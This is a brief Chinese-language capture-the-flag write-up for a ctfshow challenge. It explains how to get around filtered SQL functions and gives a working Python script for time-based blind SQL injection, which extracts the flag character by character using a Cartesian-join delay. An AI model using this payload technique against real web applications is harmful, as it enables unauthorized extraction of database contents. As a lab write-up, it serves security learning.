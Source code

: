 `substr` `mid` 不能用可以换成 `like` 模糊查询

`concat` 被过滤意味着不能用 `group_concat`, 可以换成 `limit n,1`

单双引号不受影响

笛卡尔积不受影响

脚本

```python
import time
import requests

dicts='{ctfshow1234567890-asdfqeryuipgjklzxvbnm}'

url = 'http://97bea48b-2639-4d40-9d52-79a67c3bb366.challenge.ctf.show/api/index.php'

flag = 'ctfshow{5'

for i in range(1,64):
    for s in dicts:
        #sql = 'select table_name from information_schema.tables where table_schema=database() limit 0,1'
        #sql = 'select column_name from information_schema.columns where table_name=\'ctfshow_flagxcac\' and table_schema=database() limit 1,1'
        sql = 'select flagaabcc from ctfshow_flagxcac limit 0,1'
        payload = f'if(({sql}) like \'' + flag + s + '%\',(SELECT count(*) FROM information_schema.columns A, information_schema.tables B, information_schema.tables C),0)'
        start = time.time()
        res = requests.post(url,data={'ip': payload, 'debug': '0'},timeout=30)
        stop = time.time()
        if stop - start >=5:
            flag += s
            print(flag)
            break
```